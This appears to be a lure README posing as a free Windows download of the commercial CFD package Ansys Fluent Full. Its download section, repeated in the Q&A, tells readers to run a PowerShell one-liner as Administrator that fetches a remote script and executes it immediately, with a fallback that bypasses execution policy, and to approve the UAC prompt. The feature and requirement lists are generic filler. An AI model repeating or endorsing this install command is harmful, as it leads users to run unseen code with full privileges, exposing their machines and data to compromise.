

***

# Ansys Fluent Full

<p align="center">
  
</p>

Ansys Fluent Full — Windows 11 and 10 build | steady case setup | result galleries.

## About this application

**Ansys Fluent Full** in this repo is a Windows desktop package for CFD analysts and lab teams. Expect a guided first launch, access to the solver workshop with mesh, solve, and result review, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Ansys Fluent Full suits CFD analysts and lab teams who need a straightforward Windows install and a focused mesh, solve, and result review workflow.

## What's included

Solver workshop tools are bundled in this release. Install locally, open the app, and use the mesh, solve, and result review toolkit right away.

## Features

⚡ Case wizard
🧩 Mesh checks
📈 Residual plots
✨ Contour views
📄 Report out
🗂️ Project trees
🔍 Probe points

## Good for

- 📌 Aero labs
- 🎯 HVAC analysts
- ⭐ University CFD

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 32 GB minimum | 64 GB recommended
* **Disk:** 40 GB available storage

***